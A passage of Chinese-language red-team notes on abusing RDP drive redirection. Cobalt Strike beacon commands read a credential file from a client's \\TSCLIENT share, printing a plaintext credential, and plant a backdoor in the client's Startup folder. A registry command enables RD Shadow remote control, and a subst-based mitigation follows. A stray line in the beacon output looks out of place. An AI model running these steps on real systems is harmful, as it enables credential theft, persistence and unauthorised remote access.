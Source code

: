 ```console

-------------------------------------------------------------------------------
                       \\TSCLIENT\C              Microsoft Terminal Services
命令成功完成。

```

> 注：只有远程登录的用户可以访问 tsclient，其他用户无法访问，包括使用 runas 也无法访问。

此时，可以通过 tsclient 读取该用户（RDP 客户端）本地磁盘中的文件：

```console
beacon> shell type \\TSCLIENT\C\credential.txt
[*] Tasked beacon to run: type \\TSCLIENT\C\credential.txt
[+] host called home, sent: 63 bytes
[+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

还可以向磁盘（用户开机启动项）中写入恶意文件，当机器重启时就会执行恶意文件：

```console
# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```

> 可用工具：https://github.com/mdsecactivebreach/RDPInception/

预防（风险控制）的方法：虽然 mstsc 在配置挂载磁盘时无法直接选择文件夹，但可以利用 [subst](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst) 命令将指定的文件夹挂载成磁盘驱动器，实现将远程主机的读写范围限缩在指定文件夹。

```console
PS C:\Windows\System32> # 创建虚拟驱动器
PS C:\Windows\System32> subst T: C:\Temp\RdpTransfer
PS C:\Windows\System32> wmic logicaldisk get deviceid,volumename
DeviceID  VolumeName
C:        Windows-SSD
T:        Windows-SSD

PS C:\Windows\System32> # 删除替换的（虚拟）驱动器
PS C:\Windows\System32> subst /d T:
```

## Shadow Mode

该模式类似于 “向日葵”、“Teamviewer”、“ToDesk” 这类远程控制软件的效果。

---

需要修改目标机器 GPO（Group Policy Objects，组策略对象）配置 RD Shadow 连接选项：

```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 2 /f
```

